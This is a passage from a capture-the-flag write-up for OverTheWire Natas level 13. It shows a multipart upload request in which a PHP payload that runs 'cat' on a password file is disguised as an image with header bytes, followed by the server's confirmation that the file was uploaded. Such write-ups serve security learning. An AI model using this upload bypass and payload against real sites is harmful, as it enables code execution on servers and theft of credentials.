 ![natas13-02](/assets/images/otw-natas/natas13-02.png)

Upload the file and modify the POST request as in the previous level to our own value for `filename`.

```html
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="filename"

giantburrito.php
-----------------------------889891975953420225799738043
Content-Disposition: form-data; name="uploadedfile"; filename="natas13jpg.php"

����<?php echo exec("cat /etc/natas_webpass/natas14"); ?>
-----------------------------889891975953420225799738043--
```

```html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/ve7evh8ayr.php">upload/ve7evh8ayr.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success. Ignore the four bytes we added and you've got the password.
